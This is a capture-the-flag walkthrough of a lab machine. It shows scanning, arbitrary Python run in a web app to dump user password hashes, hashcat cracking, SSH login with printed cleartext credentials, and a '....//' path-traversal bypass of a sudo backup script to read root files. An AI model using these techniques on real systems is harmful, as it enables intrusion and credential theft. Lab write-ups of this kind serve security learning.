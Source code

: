 Let's scan the IP address
```bash
sudo nmap -v -sC -sV 10.10.11.62
```

![image](images/20250323162126.png)

Let's go to the site

![image](images/20250323162329.png)

Let's register an account

![image](images/20250323162437.png)

Now there is a `My Codes` button, when clicked, a page with saved codes opens, which we can open or delete

![image](images/20250323162635.png)


![image](images/20250323162659.png)

Let's assume that we can execute commands at the system level and there is a data model `User`. Let's try to print the first record in the table
```Python
print(User.query.first())
```

![image](images/20250329220030.png)

It worked! Let's try to print the id, users and their passwords
```Python
print([(user.id, user.username, user.password) for user in User.query.all()])
```

![image](images/20250329215015.png)

This Python code does the following:
1. Working with the database via ORM:
- `User.query.all()` is a typical ORM query (e.g. SQLAlchemy) to get all records from the table associated with the `User` model.
1. Creating a list of tuples:
- The list generator `[(user.id, ...) for user in ...]` forms tuples for each user, containing:
- `user.id` - a unique user identifier
- `user.username` - user login
- `user.password` - password (usually hashed)
There are password hashes for users `development` and `martin`
```Hashes
development:759b74ce43947f5f4c91aeddc3e5bad3
martin:3de6f30c4a09c27fc71932bfc68474be
```
Crack these hashes
```bash
hashcat -m 0 martin /usr/share/wordlists/rockyou.txt
```
We get passwords
```Passwords
development:development
martin:nafeelswordsmaster
```
We were able to connect via SSH only to Martin with this password:
```Password
nafeelswordsmaster
```

![image](images/20250329215358.png)

This time there is no user flag in our user's home directory. But most likely it is in the directory of another user to whom we do not have access.

We can execute the `sudo` command only for the script `/usr/bin/backy.sh`

![image](images/20250329215622.png)

<div style="page-break-after: always;"></div>

```bash
#!/bin/bash
if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi
json_file="$1"
if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi
allowed_paths=("/var/" "/home/")
updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")
/usr/bin/echo "$updated_json" > "$json_file"
directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')
is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}
for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done
```
The script takes a JSON file (`task.json`) to decide which files to back up. It runs with root privileges (`sudo`), which means it has the ability to access restricted files. It only allows you to back up files from specific folders (`/var/` and `/home/`), but maybe we can trick it.
Open `task.json`

![image](images/20250329220616.png)

Replace `directories_to_archive` with the path to the first flag. Most likely it is located at `/home/app-production/user.txt`

![image](images/20250329220728.png)

An archive has appeared that needs to be unpacked. After unpacking, we see a backup of the flag
```bash
tar -xjf code_home_app-production_user.txt_2025_March.tar.bz2
```

![image](images/20250329220757.png)

Now let's try to backup the flag `root.txt`, which usually has the path `/root/root.txt`. Since the script can only back up files from certain folders (`/var/` and `/home/`), we'll trick it by writing the path `/var/../root/`

![image](images/20250329221341.png)


![image](images/20250329221409.png)

The script deleted `../`. Let's try writing the path `/var/....//root/`

![image](images/20250329221620.png)


![image](images/20250329221733.png)

For some reason, the archive is empty. Let's try to remove `exclude`

![image](images/20250329221815.png)


![image](images/20250329222025.png)

